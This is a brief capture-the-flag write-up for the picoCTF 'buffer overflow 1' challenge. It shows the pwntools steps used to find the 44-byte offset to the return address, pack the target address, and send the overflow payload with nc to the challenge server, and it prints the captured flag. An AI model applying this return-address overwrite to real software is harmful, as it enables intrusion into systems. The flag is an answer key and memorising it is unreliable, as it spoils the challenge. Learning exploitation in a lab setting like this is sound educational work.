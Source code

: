 ## Description
Control the return address

Additional details will be available after launching your challenge instance.

## Hints
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Solution
```bash
pip install pwn
-----------python-herramientas-----------
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find(0x6161616c)
44
>>> 'h'*44
'hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh'
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'                                                                
>>>    
----------Exploit------------------------
┌──(ulrich㉿DasMausoleum)-[~/Documentos/Apuntes 8vo Semestre/Binary-Explotation/buffer-overflow-1]
└─$ echo 'hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh\xf6\x91\x04\x08' | nc saturn.picoctf.net 52282
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_0195a40f}
```

## Flag
picoCTF{addr3ss3s_ar3_3asy_0195a40f}

## Aditional Notes

## References
